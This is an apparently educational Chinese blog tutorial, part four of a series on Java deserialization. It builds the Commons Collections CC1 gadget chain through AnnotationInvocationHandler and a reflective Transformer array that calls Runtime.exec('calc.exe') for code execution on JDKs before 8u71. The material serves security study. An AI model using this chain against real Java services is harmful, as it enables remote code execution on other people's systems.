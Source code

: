 ```yaml
---
created: '21/11/06'
title: 反序列化篇4
tags:
  - java
  - java安全
  - 反序列化
---
```

# 反序列化篇4
## CC1
反序列化篇3给我们留下了几个问题，上篇的极简demo并不能编写成反序列化的poc，问题主要是: 我们依靠HashMap.put方法来触发我们的链，但是我们没办法在反序列化时手工执行，所以我们在实际反序列化时需要找到一个类，其反序列化的readObject逻辑中有类似的写入操作。

### AnnotationInvocationHandler
这个类就是我们要寻找的类，其readObject方法代码如下(jdk8u71之前):
```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```
核心逻辑就是`Map.Entry<String, Object> memberValue : memberValues.entrySet()`和 `memberValue.setValue(...)`。
> memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用setValue设置值的时候就会触发TransformedMap里注册的 Transform，进而执行我们为其精心设计的任意代码。

所以我们最后需要反序列化的就是这个`AnnotationInvocationHandler`，由于此类是JDK内部类，因此我们需要使用反射来获取该类实例。
AnnotationInvocationHandler类的构造函数有两个参数，第一个参数是一个Annotation类，第二个是参数就是前面构造的Map。这里第一个参数要使用什么Annotation类呢？仔细阅读源码发现，我们需要使得`memberType!=null`成立，所以第一个参数需要满足以下两个条件:
1. 必须是 Annotation的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被TransformedMap.decorate修饰的Map中必须有一个键名为X的元素

所以我们最终选择了Retention类，其具有一个value方法，后续我们需要往HashMap中放入一个key为value的值。

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

### 反射构造java.Runtime
当我们将代码修改好之后，会发现依然无法将上述代码中的obj序列化，原因是`java.lang.Runtime`是没办法序列化的，我们需要使用反射技术来最终拿到该类:
```java
Method f = Runtime.class.getMethod("getRuntime");
Runtime r = (Runtime) f.invoke(null);
r.exec("calc.exe");
```
所以我们需要修改Transformer，代码如下:
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
```
> 其实和demo最大的区别就是将Runtime.getRuntime()换成了Runtime.class，前者是一个 java.lang.Runtime对象，后者是一个java.lang.Class对象。Class类有实现Serializable接口，所以可以被序列化。

### 高版本限制
我们这里的payload是无法在jdk>=8u71上触发的，这是由于`AnnotationInvokeHandle.readObject`在此版本做了修改:
![](https://gitee.com/guuest/images/raw/master/img/20211106152805.png)
具体的解决办法在下一篇文章中。

### 总结
整条链的调用逻辑为:
```
AnnotationInvocationHandler.readObject() 
  HashMap.setValue()
    ChainedTransformer.transform()
      ConstantTransformer.transform() // 获取Runtime.class
      InvokerTransformer.transform()   // 获取Runtime.getRuntime
      InvokerTransformer.transform()   // 获取Runtime实例
      InvokerTransformer.transform()   // 调用exec方法触发rce
```